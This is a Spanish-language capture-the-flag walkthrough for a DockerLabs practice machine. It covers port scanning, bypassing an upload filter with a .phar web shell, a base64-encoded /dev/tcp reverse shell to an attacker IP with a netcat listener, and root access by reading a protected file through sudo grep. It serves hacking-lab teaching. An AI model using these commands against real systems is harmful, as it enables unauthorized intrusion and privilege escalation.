


# Maquina DockerLabs - DockerLabs.es

Verificar que la maquina este desplegada correctamente

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

A continuación, realizamos un escaneo de la IP utilizando Nmap.

Observamos que el puerto 80 esta abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

En este caso, nos centraremos en el puerto 80 el unico que esta abierto y ejecuta un servicio HTTP mediante Apache httpd 2.4.58. Accederemos a la página web alojada en esta máquina utilizando un navegador.

Al aplicar Fuzzing para descubrir rutas y archivos con extensiones como .php, .html, entre otras, obtendremos los siguientes resultados:

Al acceder al archivo machine.php, encontraremos una página web que permite la subida de archivos.

Realizaremos una prueba subiendo una foto para observar qué sucede.

Observamos que solo se permiten archivos con la extensión .zip. Realizaremos una prueba subiendo un archivo .zip y confirmamos que la carga se completa correctamente.

Recuerda que también encontramos la ruta /uploads. Al visitarla, observamos que aquí se almacenan los archivos .zip que hemos subido.

Con base en lo anterior, intentaremos subir un archivo que contenga código PHP para ejecutar comandos a nivel del sistema.

Después de varios intentos para eludir la validación, descubrí que un archivo con la extensión .phar podría ser una solución viable. Un archivo .phar es similar a un archivo .zip o .tar, pero está diseñado específicamente para contener archivos PHP y otros recursos relacionados.

Creé un archivo llamado pwned.phar que incluye el siguiente código, lo cual nos permite ejecutar comandos del sistema al enviar un parámetro llamado cmd, en el cual inyectamos los comandos que deseamos ejecutar.

Subiremos el archivo .phar y confirmaremos que se ha cargado correctamente.

Ahora, si cargamos el archivo .phar y enviamos comandos a través del parámetro cmd, podremos ejecutar dichos comandos con éxito.

Ahora, necesitamos enviar una shell inversa a nuestra máquina atacante.

Primero, convertimos la shell inversa a Base64 utilizando el siguiente comando:

`echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64`

Esto nos dará el siguiente resultado: `c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`.

En nuestra máquina atacante, nos ponemos a la escucha con Netcat en el puerto 4444 utilizando el siguiente comando:

`nc -nvlp 4444`

Luego, en el parámetro cmd, enviamos el siguiente comando:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash`

Al ejecutar esto, obtendremos una shell inversa en nuestra máquina atacante. Así, estaremos dentro del sistema.

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Al ejecutar `sudo -l`, veremos que podemos ejecutar los binarios `/usr/bin/cut` y `/usr/bin/grep` como usuario root sin necesidad de proporcionar una contraseña.

Si realizamos una búsqueda de archivos .txt en el sistema utilizando el comando:

`find / *.txt 2>/dev/null`

veremos que hay un archivo en /opt/ llamado nota.txt.

Al revisar el contenido de ese archivo, encontramos el siguiente mensaje:

Protege la clave de root, se encuentra en su directorio `/root/clave.txt`. Menos mal que nadie tiene permisos para acceder a ella.

Al intentar leer el archivo `/root/clave.txt`, descubrimos que no tenemos permisos para acceder a él.

Sin embargo, recordemos que tenemos permisos para ejecutar los binarios grep y cut. Aprovecharemos estos permisos para leer el archivo `/root/clave.txt` de la siguiente manera:

`sudo /usr/bin/grep '' /root/clave.txt`

Al leer el archivo, encontramos una posible contraseña: `dockerlabsmolamogollon123`.

Al intentar cambiar al usuario root y utilizar esta contraseña, logramos acceder con éxito y ahora somos root.

